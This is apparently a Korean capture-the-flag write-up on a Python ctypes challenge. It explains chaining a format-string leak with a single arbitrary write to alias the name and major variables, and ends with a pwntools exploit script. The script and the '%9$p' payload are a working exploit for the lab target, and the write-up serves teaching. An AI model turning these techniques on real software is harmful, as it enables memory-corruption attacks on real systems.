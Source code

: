 ```py
def change_name():
    print(str(b'change change! >'), c_void_p(0), 1)
    C._puts(str(b''))
    input_str(name, 32)
    print(str(b'name is change!\n'), c_void_p(0), 1)
    print(str(b'changed name: '), c_void_p(0), 1)
    print(name, c_void_p(0), 1)
    C._puts(str(b''))
```

문제의 description과 같이 do_hack 함수에서는 1회의 arbitrary address write를 진행할 수 있게끔 도와주며, `change_name` 함수에서 fsb가 발생하는 것을 쉽게 찾아낼 수 있다.

이 문제에는 세 가지 난관이 있다.
첫 째로, arbitrary address write는 8bytes로 단 1회이기 때문에, 주소를 알더라도 aaw를 통해서 `Economics -> InformationSecurity`로 바꿔주는 것은 불가능하다는 것이다.
둘 째로는 어떤 주소가 필요한지 애매하다. libc leak을 한다고 해도 aaw 1회로 shell을 획득하는 건 사실상 불가능하다. 
그리고 마지막으로는 fsb를 진행할 때, 우리가 적는 버퍼의 값이 stack에 적히는 것이 아니라서 굉장히 많은 회수의 stage를 거쳐 fsb를 진행 하거나 해야하는데 이는 굉장히 어려운 문제이다.

하지만 우리는 fsb로 주소값은 몇 번이고 leak을 할 수 있다.

이를 통해 fsb로 name의 실제 주소를 leak하는 건 가능하다. printf가 진행될 때 어쨌던 간에 내부적으로 나의 input(name)을 stack에 담을 가능성이 높기 때문에, gdb로 스택을 조금만 뒤져보면 쉽게 찾아낼 수 있다.

또한 name과 major는 script 내에서 생성 시기가 비슷하기 때문에, name의 주소로 major의 주소도 구해낼 수 있다.

그러나 이것만 가지고는 major를 변조할 수 없다.

major의 주소가 stack에 있는 것도 아니고 stack을 쉽게 변조할 수 있는 것도 아니기 때문이다.

그래서 실제 name의 주소를 가지고 있는 이중 포인터를 찾아내야 한다. (ptr->name->"YOUR NAME"일 때 ptr을 찾아내야 한다.)
name을 직접 접근해서 값을 변조할리는 만무하므로 반드시 pointer가 존재하는데, 이 포인터와 name의 주소는 조금의 오차가 있긴 하지만 매우 reliable하게 비슷한 위치에 존재한다.

때문에 이를 통해서 name의 ptr도 구해낼 수 있다.

이제 aaw기능을 활용하여 name의 ptr에 접근해서 name의 값을 지우고 major의 실제 주소를 넣어주면 name과 major가 같은 주소를 공유하게 된다.

이후에는 change name 기능을 통해 이름을 `InformationSecurity`로 바꿔주면 major도 함께 바뀌게 되므로 승리 조건을 달성할 수 있다.

```python
from pwn import *

e = ELF('/usr/bin/python3')
# p = e.process(['prob.py'])
p = remote('0', 51254)

sla = p.sendlineafter
sa = p.sendlineafter

sla(b'>', b'ipwning')
sla(b'>', b'1')

p.recvuntil(b'6. exit')
sla(b'======================\n', b'3')
pause()
sla(b'>', b'%9$p')
p.recvuntil(b'changed name: ')
leak = int(p.recvline(), 16)
target = leak + 0x175d60
goal = leak + 0x20

log.info('[LEAK] %#x'%leak)

p.recvuntil(b'6. exit')
sla(b'======================\n', b'4')
sla(b'target:', str(target).encode())
sla(b'value:', str(goal).encode())
```